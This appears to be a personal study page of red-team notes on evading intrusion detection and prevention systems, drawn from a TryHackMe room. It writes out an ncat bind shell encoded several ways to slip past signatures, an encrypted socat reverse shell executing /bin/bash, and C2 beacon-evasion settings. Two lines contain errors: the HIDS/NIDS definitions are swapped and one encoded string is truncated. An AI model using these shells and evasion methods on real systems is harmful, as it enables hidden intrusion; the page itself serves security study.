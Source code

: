 # Evading-IPS-And-IDS

## Definitions

IPS = Intrusion Prevention System
IDS = Intrusion Detection System
HIDS = Network-based-IDS
NIDS = Host-based-IDS

Network Traffic and Host activity: is either Benign | Malicious traffic.

Signature-based: Signatures of known maliciou traffic fed into IDS.
Anomaly-based: Regular traffic model, for IDS to detect anomalies.

## IDS/IPS each have rule syntax:
Snort uses:
Rule Header (Rule options)
Action			alert, log, pass, drop and reject
Protocol		TCP, UDP, ICMP or IP
Source IP/Port		!IP/mask any # = anything but from IP/mask range
Direction of Flow	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port	Similar to Source IP/Port
Some more specifics:
flow:established 


## General approaches you might consider to evade IDS/IPS systems:
Evasion via Protocol Manipulation
Evasion via Payload Manipulation
Evasion via Route Manipulation
Evasion via Tactical Denial of Service (DoS)

## Evasion via protocol manipulation includes:
#### Relying on a different protocol

IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

Manipulating (Source) TCP/UDP port
Using session splicing (IP packet fragmentation)
Sending invalid packets
Refer to [[Nmap-Cheatsheet]] for evasion strats

## Suppose you want to force all your packets to be fragmented into specific sizes:
https://www.monkey.org/~dugsong/fragroute/

## Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation
####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

#### Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

#### Modifying the shellcode

## Route Manipulation
With example of [[Nmap-Cheatsheet]]

Relying on source routing with `--ip-options "L $IP $IP $IP"` would specify loose routing - scan through any in the array, whereas strict routing with `"S"` as the 0th index of the string would strict hop from first `$IP` to the last.

Using proxy servers with `--proxies proto://host:port, proto://host:port`, Valid protocols are HTTP and SOCKS4 - authenication is not supported.



## Evasion via Tactical DoS

IDS/IPS requires a high processing power to managing and regulate rules grows and tthe network traffic volume increase, and with spefically IDS logging of said traffic and matching of rule signatures.
1. Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
1. Create a massive amount of not-malicious traffic that would still make it to the logs, congesting the communication channel with the logging server or exceed its disk writing capacity.

## C2 Evasive Tactices
See [[Introduction-To-Comand-And-Control-Frameworks]] for more information:

1. User Agent - Innocuous configuration rather than default
2. Sleep time - control callback interval between beacon checkins
3. Jitter - Pseudo-Randomness of sleep time THM:*"A jitter of 30% results in a sleep time of ±30% to further evade detection."*
4. SSL Certificate - Authenicity equals success
5. DNS Beacon - If exfiltrating data via DNS - configure DNS server and the hostname in the DNS query

[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)



## Next-Gen Security

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1.  Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2.  Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3.  Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4.  Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5.  Agile engine: Support upgrade paths to benefit from new information feeds.


## References
[THM Network Evasion Room](https://tryhackme.com/room/redteamnetsec)
[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)